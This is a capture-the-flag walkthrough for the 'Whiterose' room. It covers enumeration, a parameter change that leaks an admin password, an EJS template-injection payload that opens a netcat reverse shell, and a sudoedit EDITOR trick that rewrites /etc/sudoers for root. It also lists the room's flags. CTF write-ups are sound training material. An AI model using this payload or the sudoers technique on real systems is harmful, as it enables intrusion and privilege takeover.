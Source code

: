 ```yaml
---
Title: CTF Walkthrough 2
categories: [CTF, CTF_walkthrough]
tags: [CTF]
---
```

"<span style="color:yellow">*Always update your dependencies and your packages.*</span>"


![cover](/pictures/SWS_pictures/write_up/whiterose/cover.png)

### Room Information
Room Name: Whiterose

Difficulty Level: Easy

Room type: Challenges(CTF)

![cover](/pictures/SWS_pictures/write_up/whiterose/machine.png)

### Reconnaissance
It is given that later we will need this: Olivia Cortez:olivi8

![cover](/pictures/SWS_pictures/write_up/whiterose/info.png)

Let’s run nmap and check what ports are open.

![cover](/pictures/SWS_pictures/write_up/whiterose/nmap.png)

I discovered 2 open ports: 22 and 80,. Since port 80 is open, let’s check the website.

![cover](/pictures/SWS_pictures/write_up/whiterose/website1.png)

When visiting the web servers, we are redirected to cyprusbank.thm. So we will add this to our /etc/hosts and reload the page.
Command: sudo nano /etc/hosts

![cover](/pictures/SWS_pictures/write_up/whiterose/nano.png)

Then reload the page.

![cover](/pictures/SWS_pictures/write_up/whiterose/website2.png)

When I reload the page it shows that the site is under maintenance.
 
So let’s check for any other hidden directories using dirsearch.

![cover](/pictures/SWS_pictures/write_up/whiterose/dirsearch.png)

There are no other hidden directories. Let’s enumerate subdomains using ffuf.

![cover](/pictures/SWS_pictures/write_up/whiterose/ffuf1.png)

![cover](/pictures/SWS_pictures/write_up/whiterose/ffuf2.png)

There are two subdomains (www and admin). Now let’s visit the website using those two subdomains. For that, I need to add in /etc/hosts.

![cover](/pictures/SWS_pictures/write_up/whiterose/domain.png)

Now reload the website with a subdomain in it. 
With the subdomain www, it takes to the landing page.

![cover](/pictures/SWS_pictures/write_up/whiterose/www.png)

With the subdomain admin, it redirects us to a login page. 

![cover](/pictures/SWS_pictures/write_up/whiterose/admin.png)

Credentials for this login are obtained from the room description. 
Name: Olivia Cortez
Password: olivi8

![cover](/pictures/SWS_pictures/write_up/whiterose/bank.png)
 
Once logged in, I knew that the user only had limited access as he couldn’t see the phone number.

![cover](/pictures/SWS_pictures/write_up/whiterose/setting.png)

But we can take a look at the message. There is the chat history.

![cover](/pictures/SWS_pictures/write_up/whiterose/message.png)

Url looks like this: http://admin.cyprusbank.thm/messages/?c=5
So let’s change the parameter value and read all other messages.

![cover](/pictures/SWS_pictures/write_up/whiterose/history.png)

When I changed the parameter value to 0, I got the admin credential.
- Name: Gayle Bev
- Password: p~]P@5!6;rs558:q

Now I will logout from the current user and then log in again using the above credential.

![cover](/pictures/SWS_pictures/write_up/whiterose/phone.png)

![cover](/pictures/SWS_pictures/write_up/whiterose/adminsetting.png)

Wow, now I can see the phone number and also the setting. So it answers the first question.

What's Tyrell Wellick's phone number?

Ans: 842-029-5701

### Now Let’s get to the User. 

Gayle can change users’ passwords, but there wasn’t anything useful there. 

![cover](/pictures/SWS_pictures/write_up/whiterose/change.png)

I fired up Burp Suite to intercept the request. 

![cover](/pictures/SWS_pictures/write_up/whiterose/burp.png)

Then I send it to the repeater.

![cover](/pictures/SWS_pictures/write_up/whiterose/repeater.png)

If we intercept a request and change it by omitting parameters such as the password, an error message appears.

![cover](/pictures/SWS_pictures/write_up/whiterose/error.png)

This tells us that ejs files are included. When i search for ejs ssti payloads, i got this;

![cover](/pictures/SWS_pictures/write_up/whiterose/payload.png)

It is a blog post, from this article I got an payload; 

![cover](/pictures/SWS_pictures/write_up/whiterose/got.png)

#### payload

&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 127.0.0.1 1337 -e sh');s


We need to append this after the password in the burp suite. Note that you need to change IP and port according to yours.

![cover](/pictures/SWS_pictures/write_up/whiterose/append.png)

In the terminal, we need to listen to that port.

![cover](/pictures/SWS_pictures/write_up/whiterose/port.png)

Once we receive the connection we need to run this command: python3 -c 'import pty; pty.spawn("/bin/bash")'

![cover](/pictures/SWS_pictures/write_up/whiterose/user.png)

Finally, boom…..we got the user flag. 

### Privilege Escalation
The next task is to get the root.txt flag. It isn’t as easy as I thought. I can’t get into root just with the command sudo su as I don’t not the password of the web.

![cover](/pictures/SWS_pictures/write_up/whiterose/su.png)

I need to check for sudo privileges.
Command: sudo -l

![cover](/pictures/SWS_pictures/write_up/whiterose/-l.png)

User web can run;
 (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm. 

Let’s do what user web is allowed to do. Select the editor by using the following command:

export EDITOR="vim -- /etc/sudoers"

Then next run this command:  sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
Add the following line under user privilege specification and save.

web ALL=(ALL:ALL) NOPASSWD: ALL

Press i before typing the above command. You need  press enter. Then press escape and then :wq enter again :wq enter. In this way we save it.

![cover](/pictures/SWS_pictures/write_up/whiterose/privi.png)

After that, we can now run sudo su command and get into the root.

![cover](/pictures/SWS_pictures/write_up/whiterose/root.png)

Now I got thaveroot access. Finally, I also got the root.txt


### Flag Captured
- user.txt flag: THM{4lways_upd4te_uR_d3p3nd3nc!3s}

- root.txt flag:  THM{4nd_uR_p4ck4g3s}
